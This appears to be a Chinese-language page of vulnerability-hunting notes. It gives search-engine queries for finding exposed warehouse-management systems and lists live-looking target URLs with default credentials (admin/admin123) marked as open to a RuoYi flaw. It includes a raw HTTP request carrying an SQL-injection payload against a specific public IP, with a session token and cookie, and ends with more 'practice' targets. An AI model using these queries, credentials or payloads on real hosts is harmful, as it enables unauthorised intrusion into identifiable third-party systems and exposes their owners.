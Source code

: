 
很明显跑偏了，换语法

```python
title="仓库管理系统" && body="商中在线"   说明没有商中在线得技术支持等关键字段
title=="仓库管理系统"   范围缩小了   但肯定还有偏的

title=="仓库管理系统" && header="200"  响应头200的资产
title=="仓库管理系统" && header="200" && after="2021-01-01"    时间在2021年1.1上新的资产
同一个资产需要10个以上才会发证书

title=="仓库管理系统" && header="200" && after="2021-01-01" && icon_hash="-1252041730"
搜索vue的最后确定好范围以后，查看域名资产，或者ip反查，确定资产最终归属，确定好，就可以挖掘漏洞了

title=="仓库管理系统" && header="200" && after="2021-01-01" && icon_hash="-119001340"
```

https://deerwms.rhjc56.com/    admin/admin123    若依漏洞

### sql注入

```python
body="<strong>We're sorry but mas-creator-admin"
```

存在sql注入

```python
GET /springboot3d1ab/kangfujihua/page?page=1&limit=10&sort=1'&order=desc&zhanghao=%251%27%25 HTTP/1.1
Host: 115.159.223.208:8081
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Token: 3t7bf4kojwmzaub2ye1d86lzihva6ioc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=64A2FCCC4A36708B1FDD78A9701F3676
Connection: close
```

- 实际缴纳资金大于5000w
- 事件型必须是事业单位（国企单位）
- 通用性（案例大于10个）

## 练习

### 软件著作权

```python
title=="仓库管理系统" && header="200" && after="2021-01-07" && icon_hash="706913071"
```

http://47.109.186.137/index

https://test-tjycdlwms.ponlay.com/index
